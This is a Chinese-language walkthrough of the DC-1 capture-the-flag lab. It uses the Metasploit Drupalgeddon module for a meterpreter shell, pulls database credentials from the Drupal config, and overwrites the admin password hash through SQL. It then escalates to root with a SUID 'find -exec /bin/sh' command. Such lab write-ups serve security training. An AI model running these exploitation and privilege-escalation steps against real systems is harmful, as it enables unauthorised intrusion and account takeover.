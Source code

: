 
# 0x00环境

攻击机：kali：192.168.1.28

靶机DC-1：192.168.1.9


# 0x01实战


## 端口扫描

```
nmap -sV -A 192.168.1.9
```

![image-20220107104613199.png](_img\06-靶场实践/1652255954098-0700cedc-75fe-4c96-abe5-14ab89c88c0e.png)


## 访问HTTP服务

访问80端口HTTP服务，发现是使用 Drupal CMS，并且版本为7

![image-20220107105358147.png](_img\06-靶场实践/1652255959245-13d40a44-1d20-4982-a63c-c1330596db57.png)

使用MSF查找与Drupal CMS相关的EXP

```
search drupal
```

![image-20220107105921406.png](_img\06-靶场实践/1652255963038-2475e1be-9fc2-410b-a692-084655cef658.png)

通过查看EXP模块详情发现`exploit/unix/webapp/drupal_drupalgeddon` 似乎可以使用

```
info 2
```

![image-20220107110425603.png](_img\06-靶场实践/1652255967047-5faf0b7c-8ab3-49da-83be-e665d366e7b4.png)


## 漏洞利用

利用该模块并查看配置文件

```
use 2
show options
```

![image-20220107110530628.png](_img\06-靶场实践/1652255971909-6b3aa1d4-6259-4622-ab57-12578a31cf03.png)

配置相关参数

```
set lhost 192.168.1.28
set rhosts 192.168.1.9
```

![image-20220107110637445.png](_img\06-靶场实践/1652255975864-75be36d4-2d04-4433-a756-2f8b11a1fbc2.png)

run，成功得到meterpreter

![image-20220107110748605.png](_img\06-靶场实践/1652255979901-8e41f483-c7a9-4673-8f70-4c4452d91a75.png)

查看当前用户和系统版本

```
getuid
sysinfo
```

![image-20220107111159067.png](_img\06-靶场实践/1652255983921-11cfa399-d174-428f-bb85-fabce60c93f6.png)

进入shell并使界面看起来正常

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

![image-20220107111544038.png](_img\06-靶场实践/1652255987312-c53568c0-6990-4916-93b2-b689495a4fa4.png)


## flag1

查看文件目录，找到了flag1.txt

Every good CMS needs a config file - and so do you.

![image-20220107111851145.png](_img\06-靶场实践/1652255990515-bfb64f8b-dc4e-430e-b7a8-9c51097b7109.png)


## flag2

flag1提示我们查看CMS的配置文件

![image-20220107112446373.png](_img\06-靶场实践/1652255993777-8e77e361-9c91-4a3f-9c47-599f897a68d8.png)

查看文件位置并查看文件，可以看到我们找到了flag2并且还得到了数据库账户和密码

![image-20220107112910458.png](_img\06-靶场实践/1652255997121-c19add08-46e9-4e0d-b990-bbbf8c3e3b10.png)


## flag3

使用数据库用户和密码登录数据库

![image-20220107113644153.png](_img\06-靶场实践/1652256001810-3b52b153-fb38-4530-b7a5-5265bf1e23d6.png)

查看用户表

![image-20220107113909617.png](_img\06-靶场实践/1652256005524-6f7859e7-ab3f-47b9-80e0-805e52a146ea.png)

![image-20220107113924363.png](_img\06-靶场实践/1652256009220-c240efb2-891a-480a-b78a-d43210fd1fe4.png)

```
select * from users;
```

![image-20220107114016868.png](_img\06-靶场实践/1652256013575-71ac610c-2ffe-4f86-b06a-74f0388078a4.png)

这里可以看到密码是加密后的密文

查找Drupal CMS加密文件的位置

![image-20220107114414134.png](_img\06-靶场实践/1652256017083-ef5413c5-b733-445b-8878-fda29c9e3013.png)

```
.\scripts\password-hash.sh 123456
```

![image-20220107115210851.png](_img\06-靶场实践/1652256020348-4a1a84f3-a566-4a3c-bcc4-abc21a4dbca9.png)

登录数据库将我们得到的hash替换为admin的密码

```
update users set pass='$S$DPWha1TTG1nNNET2gdGSYoetnc24Qnc/fEzrWSzh.eWRrf.Gfu8N' where uid=1;
```

![image-20220107115719116.png](_img\06-靶场实践/1652256023897-f2427144-e8e7-43bd-9534-bf5d51580a8c.png)

尝试登录后台成功

![image-20220107115824507.png](_img\06-靶场实践/1652256027171-aac1c8ef-415f-4e50-bc0e-7f0e7e36264a.png)

在页面找到flag3.txt

![image-20220107115857884.png](_img\06-靶场实践/1652256031351-16b07db4-43ca-412b-9b0e-d7bf24e18f21.png)


## flag4

查看passwd文件

![image-20220107141827190.png](_img\06-靶场实践/1652256034504-51aa0317-c3a3-4a92-8e20-148c5569a047.png)

可以看到flag4在home目录下，进入home目录查看flag4

![image-20220107141958147.png](_img\06-靶场实践/1652256037523-1f03cd0e-5d12-4cdf-81f6-0686466f73f4.png)

flag4显示要求我们在根目录找到flag，需要提权

![image-20220107142115501.png](_img\06-靶场实践/1652256042656-aba84396-bc39-4a22-ba30-ec5dd0b8309f.png)

根据flag3，find这个命令可能是以root权限执行的，我们随便find一个内容，而-exec可以作为find的一个选项执行命令，成功得到root权限。

```
find ./ XMTX -exec '/bin/sh' \;
```

![image-20220107142213712.png](_img\06-靶场实践/1652256046184-91378b52-2ac6-4f03-bcc5-9aa6278113dc.png)

在根目录查看flag

![image-20220107142405491.png](_img\06-靶场实践/1652256050333-1f49b82e-d445-406e-b14f-9233d0ca6fa3.png)
